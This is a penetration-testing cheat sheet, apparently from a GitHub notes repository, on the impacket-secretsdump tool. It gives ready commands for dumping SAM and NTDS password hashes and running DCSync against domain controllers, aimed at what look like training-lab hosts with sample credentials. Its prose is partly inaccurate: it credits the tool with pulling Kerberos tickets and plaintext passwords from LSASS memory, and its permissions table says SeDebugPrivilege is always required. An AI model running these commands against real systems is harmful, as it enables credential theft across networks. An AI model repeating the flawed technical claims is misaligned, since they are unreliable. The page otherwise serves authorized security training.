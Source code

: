 # impacket-secretdump

## Overview

SecretDumps is a tool often used in the context of Windows privilege escalation and post-exploitation activities. It allows an attacker (or penetration tester) to extract sensitive information from a compromised system, such as password hashes, Kerberos tickets, and other credentials stored in Windows' LSASS (Local Security Authority Subsystem Service).

SecretDumps allows attackers to dump credentials from Windows systems by extracting data from LSASS, the service responsible for managing user authentication. Specifically, SecretDumps can be used to:

Extract NTLM password hashes of user accounts.
Dump Kerberos tickets from memory, which could allow for Pass-the-Ticket (PTT) attacks.
Obtain plaintext passwords if available, especially if they were cached in memory.
Extract secrets stored in the SAM (Security Accounts Manager) database or LSASS.

## How SecretDumps Works

SecretDumps works by dumping credential information from Windows system memory, particularly from LSASS, SAM, or NTDS.dit (in domain controllers). Here's a general flow of how it works:

Target Process: SecretDumps focuses on the LSASS process, which is responsible for authentication in Windows systems. This process stores various credentials, such as password hashes and tickets.

Extracting Credentials: SecretDumps connects to the LSASS process and extracts the credentials stored within it. This can include:

NTLM password hashes for local users and domain accounts.
Kerberos tickets, which can be used for lateral movement or Pass-the-Ticket attacks.
Cached credentials (if applicable).
No Need for Direct LSASS Interaction: Unlike tools such as Mimikatz, which often require interacting directly with LSASS via memory injection or debugging, SecretDumps is typically designed to avoid direct memory access and can work with remote systems by utilizing SMB or WMI (Windows Management Instrumentation).

Remotely Dumping Credentials: SecretDumps can dump credentials from remote systems without requiring interactive access to the target. It works over network protocols like SMB or WMI, meaning you can execute SecretDumps from a remote system to pull credentials from another machine, often used to escalate privileges on a network.

Output Format: Once credentials are extracted, SecretDumps often outputs them in a format that includes NTLM hashes, Kerberos tickets, or other relevant credential data, which attackers can then use to authenticate to other systems in the network.

## How SecretDumps Differs from Other Tools (e.g., Mimikatz)


Mimikatz is a tool that works by directly interacting with LSASS's memory in order to extract credentials. It is highly powerful and flexible but requires debug privileges (SeDebugPrivilege) to access and dump LSASS memory.

SecretDumps, on the other hand, often works without needing to directly inject into LSASS memory. Instead, it interacts with LSASS through more traditional network-based methods, using protocols like SMB or WMI, allowing it to dump credentials remotely or from a running system without having to interact directly with the LSASS process.

## Usage

```shell
impacket-secretsdump <domain_name>\<username>:<password>@<target_ip>
impacket-secretsdump 'ILF.LOCAL\jmarston:P@ssword!'@10.129.202.85
```

Dump ntds credentials

```shell
impacket-secretsdump -just-dc 'ILF.LOCAL\jmarston:P@ssword!'@10.129.202.85
```

Do a dcsync:

```shell
impacket-secretsdump -outputfile <file_to_save_hashes> -just-dc <domain_name>/<username_with_permissions>:<password>@<dc_ip>
#Examples:
impacket-secretsdump -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT.LOCAL/tpetty:password1!@DC01.INLANEFREIGHT.LOCAL
impacket-secretsdump -outputfile htb_local_hashes -just-dc htb/john@10.129.8.96
```

Dump hashes from ntds.dit file, sam.sav and system.sav:

```shell
impacket-secretsdump -outputfile ntds_hashes -ntds ntds.dit -sam SAM.SAV -system SYSTEM.SAV local
```

## Permissions Required

| Privilege               | Local Machine (SAM)  | Domain Controller (NTDS.dit) |
|-------------------------|----------------------|-----------------------------|
| **Local Administrator**  | Required             | Optional (but needed for local access) |
| **Domain Administrator** | Not required         | Required (for domain access) |
| **SeDebugPrivilege**     | Required             | Required                    |
| **SeBackupPrivilege**    | Optional             | Optional                    |
| **SeTakeOwnershipPrivilege** | Optional        | Optional                    |
| **Remote Execution Permissions** | Optional (if running remotely) | Required (if running remotely) |
